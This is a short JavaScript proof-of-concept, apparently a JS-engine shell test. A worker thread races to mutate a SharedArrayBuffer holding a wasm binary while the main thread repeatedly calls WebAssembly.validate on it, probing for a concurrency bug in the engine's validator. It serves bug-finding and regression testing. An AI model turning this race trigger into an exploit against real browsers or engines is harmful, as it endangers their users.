 
var workerScript =
  `onmessage = function(sab) {
    var ta = new Uint8Array(sab);
    var tmp;
    while(1){
        var index = (Math.random() * ta.length | 0) + 1;
        var value = (Math.random() * 256 | 0) + 1;
        tmp=ta[index];
        ta[index]=value;
        for(var i=0;i<value;i++);
        ta[index]=tmp;
    }
  };`;

var w = new Worker(workerScript);
var b = readbuffer("./stack.wasm");
var ta = new Uint8Array(b);
var sb = new SharedArrayBuffer(b.byteLength);
var sta = new Uint8Array(sb);
for(var i=0;i<ta.length;i++)
    sta[i]=ta[i];


w.postMessage(sb);
while(1){
try{
    var result= WebAssembly.validate(sta);
 }catch(e){print(e)}
}

